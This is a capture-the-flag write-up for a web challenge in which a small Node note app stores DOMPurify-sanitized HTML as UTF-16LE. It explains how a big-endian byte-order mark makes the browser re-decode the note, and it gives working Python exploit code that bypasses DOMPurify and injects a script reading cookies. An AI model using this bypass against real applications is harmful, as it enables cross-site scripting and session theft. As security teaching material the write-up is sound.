

These XSS vectors are getting ridiculous! So I made a secure note app. The only NPM dependency is DOMPurify, and I directly store the output of DOMPurify.sanitize and serve that back, so it has to be secure, right? It's barely 16 LoC!


This challenge is a really simple server but very hard to exploit.
The following is how the server is built:

```js
const DOMPurify = require('dompurify')(new (require('jsdom').JSDOM)('').window); // the only dependency!
require('fs').mkdirSync('notes', { recursive: true });
require('http').createServer((req, res) => { try {
    if (req.url === "/") {
        res.setHeader('Content-Type', 'text/html');
        res.end(`<textarea id="content"></textarea><br><button onclick="location='/submit?'+encodeURIComponent(content.value)">Submit`)
    } else if (req.url.startsWith("/submit")) {
        const content = decodeURIComponent(req.url.split('submit?')[1]);
        const id = require('crypto').randomBytes(16).toString('hex');
        require('fs').writeFileSync(`notes/${id}.html`, DOMPurify.sanitize(content), "utf-16le");
        res.setHeader("Location", `/notes/${id}`); res.statusCode = 302; res.end();
    } else if (req.url.startsWith("/notes/")) {
        const id = (req.url.split('/notes/')[1]).match(/^[a-f0-9]{32}$/);
        res.setHeader('Content-Type', 'text/html; charset=utf-16le');
        res.end(require('fs').readFileSync(`notes/${id}.html`));
} } catch(e) {console.log(e)}}).listen(1337);
```

It takes an input and makes a request to submit which will create a html file with the encoding `utf-16le` after being sanitized by DOMPurify `DOMPurify.sanitize(content)`.

Then we get an id of a note, and we can see the note content.

There is a bot that accepts a note id and browses to it. The flag is probably in the bot cookie so our job is to build a XSS that bypasses DOMPurify and sends the cookie to a controlled server.

There is a thing called BOM sniff which is mention here: <https://stackoverflow.com/a/7103606> and here: <https://html.spec.whatwg.org/multipage/parsing.html#determining-the-character-encoding> point 1.

Basically what it tells is that its not practical in some cases to determine the encoding before parsing the document. There is a two-pass mechanism, the first will try to find the right encoding for the document if the user agent discovers a character encoding declaration that conflicts with this information, then the parser can get reinvoked to perform a parse of the document with the real encoding.

The user agents use a algorithm called encoding sniffing algorithm to determine the character encoding to use when decoding the document. Here is the table for the BOM Sniffing, <https://encoding.spec.whatwg.org/#bom-sniff>. Basically if we add the `0xfe 0xff` (utf-16 big endian) in the beginning of the payload and encode with utf-16 little endian we can bypass the DOMPurify and the browser will overwrite the encoding to big endian since it contains a different encoding in the first bytes.

In addition to the "header" we need to change the order of the bytes for each character if we encode initially with little endian:

```py
payload = "\ufeff<script>document.write(document.cookie)</script>"
be = payload.encode("utf-16-le")
swapped = b"".join(bytes([y, x]) for x, y in zip(be[::2], be[1::2]))
```

or just encode with big endian:

```py
payload = "\ufeff<script>document.write(document.cookie)</script>"
be = payload.encode("utf-16-be")
```

Then we can send the payload decoded to little endian since it will then encode it again when we send it:

```py
note = requests.post(
   "https://skandale--bonez-mc-2157.ctf.kitctf.de/submit?" + swapped.decode("utf-16-le"),
).url
```

Final script:

```
import requests

payload = "\ufeff<script>document.write(document.cookie)</script>"
be = payload.encode("utf-16-be")
note = requests.post(
   "https://another-one-bites-the-dust--jordin-sparks-5885.ctf.kitctf.de/submit?" + be.decode("utf-16-le"),
).url

print(note)

```

*Note: Don't do utf-16 because apparently dompurify + chrome cannot securely handle utf-16!!!*

